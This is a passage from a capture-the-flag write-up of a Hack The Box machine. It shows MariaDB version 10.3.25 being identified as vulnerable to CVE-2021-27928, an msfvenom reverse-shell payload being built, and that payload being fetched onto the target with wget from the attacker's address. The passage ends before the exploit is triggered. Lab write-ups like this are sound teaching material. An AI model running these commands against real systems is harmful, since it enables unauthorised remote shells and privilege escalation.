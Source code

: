 We can then proceed to connect to the DB as shown:

> _You need to stabilize your shell though before you attempt to connect. Otherwise, your shell will appear frozen._

```bash
zabbix@shibboleth:/tmp$ mysql -u zabbix -D zabbix -p
Enter password:
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 2019
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [zabbix]>
```

From the banner, we can see MariaDB's server version. Doing some research, we find that the version is vulnerable to CVE-2021-27928, Command execution vulnerability. Affected versions include:

- 10.2 before 10.2.37
- 10.3 before 10.3.28
- 10.4 before 10.4.18
- 10.5 before 10.5.9

![image](https://user-images.githubusercontent.com/58165365/164914574-9e2924e9-4279-45d1-b0d2-cdbcf6570c2c.png)

So i decided to test the first exploit on the search by [Al1ex/CVE-2021-27928](https://github.com/Al1ex/CVE-2021-27928)

You first need to create a reverse shell payload using msfvenom:

```bash
➜  msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.133 LPORT=9999 -f elf-so -o root.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: root.so
```

Serve the payload and download it to the target machine

```bash
zabbix@shibboleth:/$ cd /tmp/
zabbix@shibboleth:/tmp$ wget http://10.10.16.133/root.so
--2022-04-23 15:27:29--  http://10.10.16.133/root.so
Connecting to 10.10.16.133:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 476 [application/octet-stream]
Saving to: ‘root.so’

root.so             100%[===================>]     476  --.-KB/s    in 0s

2022-04-23 15:27:30 (85.0 MB/s) - ‘root.so’ saved [476/476]
```
